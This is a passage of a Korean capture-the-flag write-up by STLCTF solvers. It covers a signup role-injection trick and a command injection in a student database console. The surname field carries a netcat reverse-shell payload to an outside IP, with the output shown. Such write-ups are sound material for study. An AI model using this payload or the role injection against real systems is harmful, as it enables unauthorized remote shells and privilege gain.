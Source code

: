 `fileadmin` 파일이 플래그이다.

----

## 4 of Diamonds

> Solver is **Jaehoon Jang** from **STLCTF**

10010/tcp에 열려있는 웹 페이지의 취약점을 이용하여 문제를 해결할 수 있다.

다음과 같이 로그인 시 user account와 관련된 오브젝트의 정보를 획득 할 수 있다.
```javascript
var current_account = {"id":1,"username":"user","password":"password""role":"user","created_at":"2021-12-06T05:01:12.978Z""updated_at":"2021-12-06T05:01:12.978Z"};    
```

회원가입 시 request packet에 role을 추가하여 문제를 해결할 수 있다.

----

## 4 of Hearts

> Solver is **Dohyun Kim** from **STLCTF**

80/tcp에 접근 시 플래그를 획득할 수 있다.

----

## 5 of Clubs

> Solver is **Dohyun Kim** from **STLCTF**

15000/tcp에 접근 시 다음과 같이 특정한 명령을 내릴 수 있는 콘솔을 사용할 수 있다.
```
$ nc localhost 31337

Welcome to the Student Database Management System!
Time is 2021-12-03 18:03:46 +0000.

Pick one of the following options:
1. Create new student record
2. Show student records
3. Update an existing record
4. Delete student record
5. Exit

Input:
```

1번 메뉴를 통해 새로운 student record를 만들고 4번메뉴에서 올바른 student name을 넣어주고 student surname에서 발생하는 command injection 취약점을 이용하여 문제를 해결할 수 있다.
```
Deleting a student with the following details:
Student name: a
Student surname: a$(nc 172.17.8.84 4444 -e /bin/sh)
Invalid characters entered.

Found student file: a_a$(nc 172.17.8.84 4444 -e /bin/sh).txt
Deleting...
Completed.
```
